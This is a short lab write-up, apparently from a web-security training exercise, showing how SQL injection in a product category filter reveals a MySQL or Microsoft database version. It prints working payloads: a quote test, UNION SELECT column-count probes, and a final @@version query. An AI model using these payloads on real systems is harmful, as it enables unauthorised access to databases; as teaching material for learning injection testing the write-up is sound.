 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

> Lab Objective: display the database version string.

- Try to filter product based on category (e.g., `?category=Gifts`)
  ![1st Screenshot](./Photos/1.png)

- Use this payload `?category=Gifts'` to check for SQLi.
  ![2nd Screenshot](./Photos/2.png)

  - Which validates the SQLi presence.

- Use `UNION SELECT null, ...` to know how many columns are returned in the main query.

- Use this payload `Gifts' UNION SELECT null, null -- -`, this indicates that the main query returns two columns.
  ![3rd Screenshot](./Photos/3.png)

  - Substitute `null` with `'a'` to see which column carry a string value.
  - Using this payload `Gifts' UNION SELECT 'a', 'a' -- -`, which indicates the two columns carry string values.
    ![4th Screenshot](./Photos/4.png)

- I'll guess that the SQL query will be something like this:

  - `SELECT x, y FROM products WHERE category='Gifts';`

- Therefore, I'll inject this payload `' UNION SELECT @@version, null -- -`, to retrieve the database version.
  ![5th Screenshot](./Photos/5.png)
  - Which succeeded in retrieving the database version.
